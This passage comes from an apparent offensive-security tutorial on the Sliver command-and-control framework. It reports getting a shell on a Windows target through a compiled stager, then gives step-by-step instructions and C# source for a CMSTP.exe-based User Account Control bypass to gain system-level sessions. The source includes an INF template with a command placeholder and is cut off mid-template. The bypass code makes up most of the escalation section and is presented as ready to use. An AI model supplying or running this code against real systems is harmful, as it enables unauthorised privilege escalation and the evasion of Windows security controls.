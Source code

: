 ```
        main()
```  

Compiling this program and running it on a Windows target results in us getting the shell:  
![Shell success](./images/staging/stager-success3.jpg) 

## 2.3 Privilege escalation

It is possible to create system sessions in Sliver. On Windows machines it is necessary to bypass User Account Control (UAC) before a remote system session can be initialised. A relatively straightforward way to achieve this is with a reflective DLL injection. 

On the target machine do the following:

1. Create a script called `Sources.cs` with the code below. Save it to a convenient location. 

```
/* 
UAC Bypass using CMSTP.exe microsoft binary

Based on previous work from Oddvar Moe
https://oddvar.moe/2017/08/15/research-on-cmstp-exe/

And this PowerShell script of Tyler Applebaum
https://gist.githubusercontent.com/tylerapplebaum/ae8cb38ed8314518d95b2e32a6f0d3f1/raw/3127ba7453a6f6d294cd422386cae1a5a2791d71/UACBypassCMSTP.ps1

Code author: Andre Marques (@_zc00l)
*/
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Windows;
using System.Runtime.InteropServices;

public class CMSTPBypass
{
    // Our .INF file data!
    public static string InfData = @"[version]
Signature=$chicago$
AdvancedINF=2.5

[DefaultInstall]
CustomDestination=CustInstDestSectionAllUsers
RunPreSetupCommands=RunPreSetupCommandsSection

[RunPreSetupCommandsSection]
; Commands Here will be run Before Setup Begins to install
REPLACE_COMMAND_LINE
taskkill /IM cmstp.exe /F

[CustInstDestSectionAllUsers]
49000,49001=AllUSer_LDIDSection, 7

[AllUSer_LDIDSection]
""HKLM"", ""SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\CMMGR32.EXE"", ""ProfileInstallPath"", ""%UnexpectedError%"", """"

[Strings]
ServiceName=""CorpVPN""
ShortSvcName=""CorpVPN""
```